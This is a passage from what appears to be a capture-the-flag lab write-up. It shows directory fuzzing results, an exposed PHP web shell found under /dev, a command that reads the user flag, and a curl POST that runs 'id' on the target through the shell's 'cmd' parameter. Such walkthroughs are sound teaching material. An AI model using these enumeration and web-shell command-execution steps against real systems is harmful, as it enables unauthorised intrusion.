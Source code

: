 ```
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 25ms]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 26ms]
single.html             [Status: 200, Size: 7477, Words: 2740, Lines: 155, Duration: 26ms]
scroll.html             [Status: 200, Size: 10863, Words: 4284, Lines: 196, Duration: 25ms]
.html                   [Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 25ms]
.php                    [Status: 403, Size: 291, Words: 22, Lines: 12, Duration: 27ms]
```

As we can see there are plenty of accessible directories and one of them (`dev`) looks particularly interesting. After browsing it (http://$TARGET/dev) we've got directory listing, and with that we can spot next interesting thing, `phpbash.php` script, which seems to be some kind of PHP web shell! 

![PHP web shell](images/php-web-shell.png)

With use of this web shell we could actually grab user flag.
```
cat /home/arrexel/user.txt
********************************
```

I would not say that we have fully gained foothold as this web shell has limitations. However with it's help we could easily spawn reverse shell. Brief analysis of HTML / JS code generated by `phpbash.php` shows that there is parameter named `cmd` passed in HTTP POST request, which we could prove with simple `curl`.
```
curl -X POST http://$TARGET_IP/dev/phpbash.php -d 'cmd=id'
```
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
